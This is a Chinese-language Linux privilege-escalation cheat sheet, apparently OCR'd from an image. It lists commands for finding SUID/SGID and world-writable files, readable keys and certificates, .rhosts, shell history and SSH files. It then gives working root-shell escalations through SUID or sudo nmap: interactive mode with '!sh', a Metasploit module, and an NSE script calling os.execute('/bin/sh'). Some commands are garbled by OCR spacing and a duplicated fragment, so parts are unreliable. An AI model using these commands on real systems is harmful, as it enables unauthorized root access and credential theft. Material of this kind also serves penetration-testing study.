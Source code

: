vim

less more

nano

cpmv

find

**查找**suid**和**guid**文件**

Find SUID find / -perm -u=s -type f 2>/dev/null Find GUID find / -perm -g=s -type f 2>/dev/null

**其他命令**

**命令结果**
find / -perm -4000 -type f 2>/dev/null查找SUID文件
find / -uid 0 -perm -4000 -type f 2>/dev/null查找root拥有的SUID文件
find / -perm -2000 -type f 2>/dev/null查找SGID文件（粘性位）
find / ! -path “*/proc/*“ -perm -2 -type f -print 2>/dev/null查找世界可写文件，不包括proc文件
find / -type f ‘(‘ -name *.cert -or -name* .crt -or -name *.pem -or -name* .ca -or -name *.p12 -or -name* .cer -name *.der ‘)’ ‘(‘ ‘(‘ -user support -perm -u=r ‘)’ -or ‘(‘ -group support -perm -g=r ‘)’ -or ‘(‘ -perm -o=r ‘)’ ‘)’ 2> /dev/null-or -name* .cer -name *.der ‘)’ 2> /dev/null查找您可以阅读的密钥或证书
find /home –name *.rhosts -print 2>/dev/null查找rhost配置文件
find /etc -iname hosts.equiv -exec ls -la {} 2>/dev/null ; -exec cat {} 2>/dev/null ;查找hosts.equiv，列出权限并管理文件内容
cat ~/.bash_history显示当前用户历史记录
ls -la ~/.*_history向当前用户分发各种历史文件
ls -la ~/.ssh/检查当前用户的ssh文件
find /etc -maxdepth 1 -name ‘*.conf’ -type f要么ls -la /etc/*.conf在/ etc中列出配置文件（深度1，在第一个命令中修改maxdepth参数以对其进行更改）
lsofgrep ‘/home/\/etc/\/opt/‘显示可能有趣的打开文件

也可以使用 sudo -l 命令列出当前用户可执行的命令

## **常用提权方式**

**nmap**

find / -perm -u = s -type f 2> / dev / null –查找设置了SUID位的可执行文件

ls -la / usr / local / bin / nmap –让我们确认nmap是否设置了SUID位。

Nmap的SUID位置1。很多时候，管理员将SUID位设置为nmap，以便可以有效地扫描网络，因为如果不使用root特权运行它，则所有的nmap扫描技术都将无法使用。

但是，nmap（2.02-5.21）存在交换模式，可利用提权，我们可以在此模式下以交互方式运行nmap，从而可以转至shell。如果nmap设置了SUID位，它将以root特权运行，我们可以通过其交互模式访问’root’shell。

nmap –interactive –运行nmap交互模式！sh –我们可以从nmap shell转到系统shell

**msf**中的模块为：

exploit/unix/local/setuid_nmap

**较新版可使用 —script 参数：**

echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse && sudo nmap —script=/tmp/shell.nse
